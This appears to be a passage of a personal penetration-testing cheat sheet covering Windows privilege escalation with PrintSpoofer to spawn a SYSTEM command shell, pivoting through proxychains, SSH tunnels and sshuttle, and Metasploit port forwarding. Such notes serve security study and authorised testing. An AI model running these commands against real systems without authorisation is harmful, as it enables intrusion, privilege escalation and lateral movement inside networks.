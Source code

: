 - whoami /priv
- (SeImpersonatePrivilege        Impersonate a client after authentication Enabled) ?
- Use PrintSpoofer.exe
- PrintSpoofer.exe -i -c cmd

<div style="page-break-after: always;"></div>

# Pivoting
---

## Using proxychains

1. Check interfaces `ip a show`
2. `cat /etc/proxychains`
	1. "socks4 127.0.0.1 'PORT'"
3. `ssh -f -N -D <PORT> -i <IDENTITY> <USER>@<IP_ADDRESS_NETWORK_1_MACHINE>`
4. `proxychains <COMMAD>`

## Using Metasploit

https://www.youtube.com/watch?v=r7yuU7nvjSc
## Using sshuttle

```
sshuttle -r <USER>@<MACHINE_NETWORK_1_IP> <IP+CIDR> -ssh -cmd "ssh -i <IDENTITY>"
```

Then just run commands in any terminal and you will have access to network 2.

<div style="page-break-after: always;"></div>

# Port forwarding
---

Found open ports and want to access them after pivoting through Metasploit?

```
sessions -i <SESSION_NUMBER>
```

```
portfwd add -l <LOCAL_PORT_ANY> -p <TARGET's_PORT> -r <TARGET_IP>
```

Then, without closing Metasploit, you can scan and interact with the port on `localhost:<PORT>`

-> IMPORTANT! Use nmap -sS... after port forwarding
-> IMPORTANT! Use bind shells NOT reverse shells
-> IMPORTANT! Use the actual IP of the target for further Metasploit exploits

<div style="page-break-after: always;"></div>

# Network-based attacks
---
